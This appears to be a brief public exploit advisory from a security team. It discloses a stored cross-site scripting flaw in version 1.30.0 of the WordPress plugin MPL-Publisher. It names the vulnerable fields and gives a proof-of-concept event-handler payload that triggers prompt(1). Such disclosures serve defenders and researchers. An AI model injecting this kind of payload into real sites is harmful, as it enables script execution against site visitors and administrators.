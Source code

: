 # Exploit Title: WrodPress Plugin MPL-Publisher——Stored Cross-Site Scripting
# Exploit Author: Thinkland Security Team
# Vendor Homepage: https://wordpress.org/plugins/mpl-publisher/
# Version :  V 1.30.0
# Vulnerability Type: Stored Cross-Site Scripting
# Tested on Windows 10 、XAMPP
# Vulnerability proof：  
1. MPL - Publisher 》Meta 》Language and Publisher Name ,insert the xss payload "OnMoUsEoVeR=prompt(1)//
![image]()  